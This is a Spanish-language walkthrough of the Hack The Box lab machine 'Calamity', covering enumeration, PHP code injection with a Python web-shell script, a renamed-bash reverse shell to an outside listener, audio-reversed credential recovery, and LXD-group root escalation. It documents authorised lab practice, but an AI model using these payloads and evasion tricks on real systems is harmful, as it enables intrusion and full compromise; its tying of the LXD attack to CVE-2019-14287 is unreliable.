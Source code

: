 ```yaml
---
title : Máquina|Calamity|HTB|RCE|LXD
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Calamity/Calamity0.png" style="border-radius: 150px; width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: lightblue;">Calamity</a></p>
    </div>
</div>


 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27

<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27

<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.

<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27

<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27

<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.

<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.

<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py

<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?

<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'

<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445

<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```

<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```

<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.

<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.

<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.

<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.

<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.

<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.

<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.

<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>

<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.

<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.

<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh

<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a

<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.

<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.

<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.

<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.

<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.

<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root

<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.

<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.

<img src="imgs/Calamity/Calamity36.png">
